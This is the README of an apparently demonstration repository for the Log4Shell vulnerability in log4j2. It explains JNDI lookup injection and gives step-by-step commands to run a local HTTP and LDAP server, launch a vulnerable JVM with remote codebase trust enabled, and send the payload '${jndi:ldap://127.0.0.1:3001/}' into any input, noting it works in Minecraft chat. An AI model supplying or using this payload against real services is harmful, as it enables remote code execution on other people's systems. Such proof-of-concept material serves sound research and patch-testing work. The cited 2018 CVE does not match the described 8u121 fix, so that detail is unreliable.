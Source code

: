 # log4j2-banter

## Motivation
<p>https://user-images.githubusercontent.com/37479424/145661983-131eb84a-9ac5-4014-9f6b-10b69d8d7cf4.mp4</p>
<p>This fundamental vulnerability was reported by [CVE-2018-3149](https://nvd.nist.gov/vuln/detail/CVE-2018-3149) and patched by [this article. (8u121 Release Notes)](https://www.oracle.com/java/technologies/javase/8u121-relnotes.html)</p>
<p>However, the logging library for java called log4j2 had [JNDILookup](https://github.com/apache/logging-log4j2/blob/20f9a97dbe5928c3b5077bcdd2a22ac92e941655/log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/JndiLookup.java), which allowed access to protocols such as LDAP, which allowed code injection in older java versions.</p>
<p>Patched versions of java can prevent code injection, but `JNDILookup` makes request to ldap server, which can lead to IP leaks.</p>
<p>The solution is to update **Java** and **log4j2** versions.</p>

## Running
0. Install requirements
```
system requirements => requirements.txt (gradle is not per say required, use any building tool with same output)
npm requirements => npm-requirements.txt
$ cd http-server && npm install && cd ../ldap-server && npm install
```
1. run `http-server` and `ldap-server` both
```
$ DATE=17-14-57_13-12-2021 && cd http-server && node index.js 2>&1 >$DATE_http-server.log & && cd ldap-server && node index.js 2>&1 >$DATE_ldap-server.log &
```
2. Compile Main.java
```bash
# This will generate Main.java - required to code injection .
# OSx
$ ./java-single-compile Main.java
# Linux 
$ javac Main.java
```
3. Start jvm with parameters
```bash
# You can still use log4j-client in repo for internal testing.
$ cd log4j-client &&\
		gradle jar &&\
		java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar build/libs/log4j-client-1.0-SNAPSHOT.jar
# Or run other application, com.sun.jndi.ldap.object.trustURLCodebase=true required for code injection, otherwise it will only request to ldap server.
$ java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar <javafile.jar>
```
4. Send `${jndi:ldap://127.0.0.1:3001/}` to any parameters as the payload
(In minecraft, just chatting this will work if exploit's working.)

## References
- https://github.com/apache/logging-log4j2/pull/608
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://github.com/NCSC-NL/log4shell

## License [GPL3]
See License in LICENSE
